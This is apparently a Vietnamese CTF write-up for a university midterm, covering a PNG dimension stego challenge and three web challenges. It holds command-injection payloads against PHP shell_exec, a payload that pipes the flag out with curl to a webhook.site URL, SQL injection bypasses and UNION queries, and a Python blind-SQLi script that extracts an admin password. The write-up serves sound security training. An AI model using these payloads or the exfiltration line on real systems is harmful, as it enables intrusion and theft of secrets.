# midterm-test-W1-writeup

## [Forensics] DIMENSION

### Challenge
> Yet Another Stego Challenge<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/657606fdb5faa98550bbdb665f794a44/attachment.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwMH0.ZLzsTA.3lJIkLTyxMF8Pd1n5uvdClmMM6A)

### Solution
- Ở đây đề bài cho 1 file ảnh với kích thước `0x0` kết hợp cùng tên đề bài mình đoán sẽ sửa 8 byte chiều dài và rộng để khôi phục lại bức ảnh ban đầu.
- Tool mình sử dụng ở đây là [png-dimensions-bruteforcer](https://github.com/cjharris18/png-dimensions-bruteforcer), điều chỉnh range bruteforce lên xíu ta sẽ thu được kết quả.


```
Flag: W1{d1meNsiOn_i5_cO0l_r19ht?}
```

## [Web] HEAD1

### Challenge
> [http://45.122.249.68:20018/](http://45.122.249.68:20018/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/8f80fff2c153912fc5322388b2b69332/head1.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNn0.ZLyUUw.qKuUDVqRmiQZwgtJUrvXOP3X2ZQ)

### Solution
```php
<?php

if (strpos($_SERVER['REQUEST_URI'], '_')) {
    die("no no no");
}

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_POST['input_data']);
    echo $output;
}

show_source(__FILE__);
```
- Ở bài này source code khá đơn giản đầu tiên là mình phải bypass được ký tự `_` trong `input_data`, thì ở đây đơn giản ta chỉ cần **URL encode** ký tự `_` sẽ bypass được điều kiện đầu tiên.
- Sang với điều kiện thứ 2, trong đầu mình đặt ra 1 câu hỏi là làm sao có thể truyền cùng lúc data cho `$_GET` và `$_POST`, giải pháp là ta sẽ sử dụng lệnh `curl` với option `-d` hoặc có thể gửi trực tiếp request thông qua `BurpSuite`


- Câu lệnh hoàn chỉnh như sau: `curl -d input_data=%3Bls%20%2F http://45.122.249.68:20018/\?input%5fdata\=`
- Request sẽ được gửi dưới dạng như sau
```http
POST /?input%5fdata= HTTP/1.1
Host: 45.122.249.68:20018
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

input_data=%3Bls%20%2F
```
- Kết quả nhận được là


```
Flag: W1{ez_head1_huh}
```

## [Web] HEAD2

### Challenge
> [http://45.122.249.68:20019/](http://45.122.249.68:20019/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/a6750a769d391094b4fa05b349cea45e/head2.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNH0.ZLyglw.YagF13lszTqadAdn95aq2a9FKK8)

### Solution
```php
<?php

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_GET['input_data']);
    // echo $output;
}

show_source(__FILE__);
```
- Ở bài này thì ta truyền vào được `OS Command` nhưng câu hỏi đặt ra là *Làm sao để đọc được kết quả ra đây?*
- Thì ở đây đầu tiên ta kiểm tra thấy sever không chặn kết nối ra ngoài, vậy nên giải pháp ở đây sẽ là đọc file và gửi nó ra ngoài Internet và bắt lại là xong.
- Payload: `; echo $FLAG | curl https://webhook.site/bb145fec-1626-4da3-b695-7cc86b11e295 --data-binary @-;`

```
Flag: W1{webhook_not_so_bad_huh?}
```

## [Web] DEJAVU

### Challenge
> Bài này quen quen 🐳 <br/>
> [http://45.122.249.68:20017/](http://45.122.249.68:20017/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/e68f2b74721ee7ce9863f1b983508161/dejavu.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwM30.ZLykUA.6cORsdHqk08qta_RVa7jUtuBp2s)

### Solution
- Bài này khá tương tự với 1 bài đã giải trong traning, cơ bản **flag** gồm 3 phần nằm hết ở database.

- Sơ qua về trang web thì ở trang `index.php` sẽ cung cấp cho ta 1 form login và qua file `login.php` khi ta đăng nhập thành công sever sẽ redirect qua `/news.php`. Ở dòng 13 ta có thể thực hiện SQL Injection để bypass qua phần login.

- Có 1 chú ý là ở file `news.php`, sever sẽ kiểm tra xem `$_SESSION['username']` của chúng ta có phải là `admin` hay không nên payload để SQLi phần login sẽ như sau:
    - `username`: `admin`
    - `password`: `' UNION SELECT username,password FROM users WHERE username='admin`
- Ở `/news.php` có 1 đoạn code khá *nhạy cảm* giúp chúng ta có thể truyền vào biến `$_GET['name']` qua đó có thể đọc nội dung từ database.

- Payload cho **Part 1**: `' UNION SELECT flag, flag FROM secret -- `

- Ở **Part 2** thì flag nằm trong 1 bảng ta chưa biết tên nên ta có thể sử dụng payload `' UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS -- ` để in ra thông tin bao gồm tên các bảng và cột.

- Payload cho **Part 2**: `' UNION SELECT flag_5959595959408498_5959595959408498, flag_5959595959408498_5959595959408498 FROM secret_8489498498112318_8489498498112318 -- `

- Ở **Part 3** thì flag là mật khẩu của tài khoản `admin`, ở đây cách để khai thác sẽ là `bruteforce`. Xoá cookie đang có để reset `$_SESSION` rồi bruteforce password từ trang `login.php`. Script bruteforce như sau: *(ban đầu mình bruteforce theo kiểu truyền thống thì độ phức tạp khá lớn, hết giải có người anh chỉ điểm nên mình áp dụng binsearch giúp giảm độ phức tạp đi khá nhiều)*
```py
import requests

# charset = string.ascii_letters + string.digits + string.punctuation
url = "http://45.122.249.68:20017/login.php"


def check(pos, operator, mid):
    data = {
        "username": f"admin' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'admin'), {pos}, 1)) {operator} {mid} -- ",
        "password": "abc",
    }
    r = requests.post(url, data=data)
    return r.url == "http://45.122.249.68:20017/news.php"


def bin_search(pos):
    # Giới hạn trên mình tự tăng bằng tay vì trong flag có thêm icon nên mình sẽ tăng từ từ.
    l, h = 0, 262144
    while h - l > 1:
        m = l + h >> 1
        if check(pos, ">", m):
            l = m
        else:
            h = m
    return chr(h) if check(pos, "=", h) else None


passwd = ""
found = False
while not found:
    found = True
    c = bin_search(len(passwd) + 1)
    if c:
        passwd += c
        found = False
        print("Password: ", passwd)
        if c == "}":
            break
```

```
Flag: W1{part1_part2_part③_ⓓⓔⓙⓐⓥⓤ_福🐳😁}
```

## [Web] SIMPLE STUFF
